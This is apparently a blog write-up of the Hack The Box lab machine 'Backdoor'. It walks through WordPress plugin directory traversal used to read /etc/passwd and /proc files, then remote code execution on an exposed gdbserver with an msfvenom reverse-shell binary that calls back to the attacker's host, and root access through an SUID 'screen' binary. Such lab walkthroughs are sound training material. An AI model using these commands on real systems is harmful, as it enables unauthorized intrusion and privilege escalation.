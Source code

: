```yaml
---
layout: post
title: "HTB - Backdoor"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


Backdoor is a HTB machine that is rated to be of easy difficulty. However, I think that this machine is defintely an interesting machine that taught me about vulnerabilities surrounding the use of GDBServer.

<!--more-->

## HTB - Backdoor
**Box** : Backdoor\
**IP Address** : 10.129.106.84\
**Operating System** : Linux

## Remarks
- This machine makes use of the lesser known rce surrounding GDBServers. So, do take some time to research on the GDBServer before starting the machien
- Another thing to note is that this machine may not be as straightforward when exploiting the LFI vulnerabilities. Do make sure to cover all the possible points of exploitation

## Enumeration

Just like any other box, we will first start off with doing a Nmap scan of the IP address. For this machine, other than the typical ports 22 and 80, we also obtain a port 1337. However, this port seems to be a false positive as we are unable to detect any known version or service.

## Discovery

Before we delve into finding the endpoints for the web service, we have to add the IP address to our ```/etc/hosts``` file. 

```
10.129.106.84    backdoor.htb 
```

First, we will use Gobuster to enumerate the endpoints on http://backdoor.htb. From the endpoints, we can easily see that this website possibly uses wordpress plugins. 

```
http://10.129.106.84:80/index.php            (Status: 301) [Size: 0] [--> http://10.129.106.84:80/]
http://10.129.106.84:80/license.txt          (Status: 200) [Size: 19915]
http://10.129.106.84:80/readme.html          (Status: 200) [Size: 7346]
http://10.129.106.84:80/wp-content           (Status: 301) [Size: 319] [--> http://10.129.106.84/wp-content/]
http://10.129.106.84:80/wp-admin             (Status: 301) [Size: 317] [--> http://10.129.106.84/wp-admin/]
http://10.129.106.84:80/wp-config.php        (Status: 200) [Size: 0]
http://10.129.106.84:80/wp-includes          (Status: 301) [Size: 320] [--> http://10.129.106.84/wp-includes/]
http://10.129.106.84:80/wp-trackback.php     (Status: 200) [Size: 135]
http://10.129.106.84:80/wp-login.php         (Status: 200) [Size: 5758]
http://10.129.106.84:80/xmlrpc.php           (Status: 405) [Size: 42]
http://10.129.106.84:80/wp-links-opml.php    (Status: 200) [Size: 223]
```

## Obtaining the user flag

Since we know that this website potentially uses wordpress plugins, we will navigate to http://backdoor.htb/wp-content-plugins to find out the wp plugins that are being used. From the endpoint, we are able to find that this website is using a vulnerable ebook-download plugin. 

From (exploit-db)[https://www.exploit-db.com/exploits/39575], we can see that this plugin is vulnerable to directory traversal. This can then be futhur exploited into a LFI as the payload file contents will be loaded. We will verify this by using /etc/passwd as our payload.
![LFI](../assets/backdoor/lfi.png)

Since we know that the website is vulnerable to LFI, I proceeded to try serveral ways of achieving RCE via LFI, but I was unable to exploit them. Finally, I was able to find that port 1337 was actually running GDBServer by bruteforcing /proc/*/cmdline using Burp Suite.

![GDB Server](../assets/backdoor/gdb_server.png)

With furthur research on GDBServer and the writeup (here)[https://security.tencent.com/index.php/blog/msg/137], I realized that a rce could be exploited on a publicly-exposed GDB server. 

However, there are 2 pieces of information that are a few information that we have to find out before we can continue with the exploit:
- Architecture of the server (Whether it is 32-bit or 64-bit)
- Low-privilege user on the server

For the low-privilege user, it can be easily found by again making use of the LFI that we have found earlier to view the /etc/passwd file. From there, the low-privilege user is easily revealed to be ```user```

Lastly, for the operating system, we will make use of the LFI again to read the /proc/version file. From there, we are able to find that the server is running on amd64, which tells us that the server is a 64-bit architecture.

Now that we have the required information, we will then proceed to use msfvenom to generate the reverse shell binary. This binary will then be uploaded to the GDB Server and executed to create a reverse shell in the next step. 

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=443 -f elf -o rev.elf
```

The last step in generating the reverse shell is to first connect to the gdb server at 10.129.106.84:1337. Afterwards, we will upload the rev.elf that we have generated onto the /home/user directory on the gdb server and finally, all we have to do is to execute the rev.elf to spawn the reverse shell.

```
target extend-remote 10.129.106.84:1337
cd /home/kali/rev.elf
remote put rev.elf rev.elf
set remote-exec rev.elf /home/user/rev.elf
run
```

After spawning the reverse shell, the user flag can then be easily obtained from /home/user directory.

```
user@Backdoor:/home/user$ cat user.txt
cat user.txt
<Redacted user flag>
```

## Obtaining root flag

From the LinEnum privilege escalation script, we notice that /usr/bin/screen is being set with an SUID bit, which is unusual.

```
[-] SUID files:
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26 11:50 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 Jul 23 12:55 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 68208 Jul 14 22:08 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Jul 14 22:08 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Jul 14 22:08 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 44784 Jul 14 22:08 /usr/bin/newgrp
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 53040 Jul 14 22:08 /usr/bin/chsh
-rwsr-xr-x 1 root root 31032 May 26 11:50 /usr/bin/pkexec
```

We can easily exploit /usr/bin/screen to obtain a root shell. To do that, all we have to do is to use the ```-x``` flag to attach a non-detached screen session. We will then add in the ```root/root``` argument to specify that we are going to execute the screen executable with root privileges. 

```
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root) 
```

Afterwards, we can easily obtain the root flag.

```
root@Backdoor:~# cat root.txt
cat root.txt
<Redacted root flag>
root@Backdoor:~#
```
